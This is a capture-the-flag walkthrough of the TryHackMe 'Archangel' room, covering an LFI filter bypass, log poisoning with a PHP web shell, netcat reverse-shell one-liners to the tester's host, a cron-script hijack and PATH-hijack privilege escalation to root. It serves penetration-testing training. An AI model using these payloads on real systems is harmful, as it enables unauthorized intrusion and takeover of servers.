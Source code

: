 # Archangel Room - TryHackMe


### Initial Port-scan
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/nmap.png)

- There is a webserver on port 80, so ill directory bruteforce to see if i can find anything interesting.

![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/dir_busting.png)

- Looking at the Directory scan, theres a /flags folder. I knew this was too easy, when i clicked on the link inside the file, it links to a youtube video "rick-rolled". I searched through a bunch of other directories but nothing stood out.
--------------
- At the top of the page of the main site, we we can see another hostname, which is one of the questions THM was asking for. 
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/hostname.png)

- Now to be able to reach that site, we need to specify the address in our /etc/hosts file. Youll need sudo to edit it.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/hosts.png)

- After that we can just put in the host-name in the url and it will take us to that site, because the hostname can be resolved to a IP now
- We found the first flag right at the front page of the new site.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/flag1.png)

----------
- Ok since this is a completely new site lets start directory bruteforcing again with fereoxbuster.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/dir_newsite.png)

- So we found 2 folders: /Robots.txt and /test.php. Ill start with robots first.
- Inside the robots folder, its the other file we found thats disallowed. So lets take a look at /test.php

![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/testbutton.png)
- As soon as i press the button on the  /test.php page. It sends a get request querying a file: mrrobot.php
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/test-file.png)

- At this point im trying for LFI vulnerabilities. I tried to transverse directories using ../../../../etc/passwd but there was some sort of filter. So i quickly googled LFI bypasses and came across this github page of some great bypasses. 
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

### Testing for LFI
- I Tried many bypasses until i found the double slashes worked.  ..//..//..//..//..//..//..//..//etc//passwd
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/passwd.png)
- If we look at the source file using our LFI, we can find the second flag.
- I ran into some issues trying to display the contents with the double slashes ..// so i had to base64 encode it using this paylaod. Once you have the base64 string you can decode it wherever youd like.
- `http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`
--------------
- Now lets try to LFI the apache logs. 	/..//..//..//..//..//..//..//..//var//log//apache2//access.log
- Looks like we can, and we can see from the image its storing our user-agent "Mozilla...". This will be our attack vector
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/logs.png)
--------------
### RCE
- The user-agent is where we are going to put our payload
- `<?php system($_GET['cmd']); ?>` put this payload inside our user-agent, you can use curl, burpsuite, or whatever you prefer. Im using burpsuite for this example.
- to access the RCE you add `&cmd=` at the end of the URL. In this example im testing rce with `id`, but im also adding in a echo command with any string so i can easily find my results with a quick search directly on the page.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/rce_path.png)
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/rce.png)

- looks like everything works. Now for the reverse_shell.
- this will be our payload for our RCE to execute. (Make sure to start a netcat listener on your own IP and PORT that you specified in the payload. Mine will be on port 443)
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.100.95 443 >/tmp/f` 
- Important to note, you might run into the issue where the URL doesnt get processed properly and it might take you to google. You need to URL encode the payload, and specify the port the domain is on.
- `http://mafialive.thm:80/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var//log//apache2//access.log&cmd=m%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.9.100.95%209999%20%3E%2Ftmp%2Ff`

---------
- Now we have a shell. 
- To stabalize use `python3  -c   'import pty; pty.spawn("/bin/bash")'`


- While using linpeas to find ways to esculate privileges, theres an interesting script found in /opt.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/hello_world.png)
- Doing a bit more enumeration, we also find the script is being run every minute by cron with the user archangle.
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/cron.png)

- We have write permissions on the file too, so lets put in a reverse_shell just like we previously did. Also dont forget to start another nc listerner on a different port 
- echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.100.95 6666 >/tmp/f" > helloworld.sh
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/arc.png)


- WoooO!, now we have upgraded to the user archangel. Time for more enumeration.
- looking inside archangel's home directory, inside /secret theres the second flag. Also there is a binary file "backup", owned by root that we have read and execute permissions on. 
- cat'ing the binary we see its running a cp command
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/binary.png)


- So lets create a malicous file named "cp" and put it into our /tmp directory
- `touch /tmp/cp`
- cd into the /tmp directory and `echo "/bin/bash" > cp`
- Now all we need to do is modify our $PATH, then execute the backup file.
- `export PATH=/tmp:$PATH`
- now cd back to the directory with our backup file and run it ./backup
![alt-text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Archangel/images/root.png)
- WOooOO! 
- GO into the root directory to find the last flag




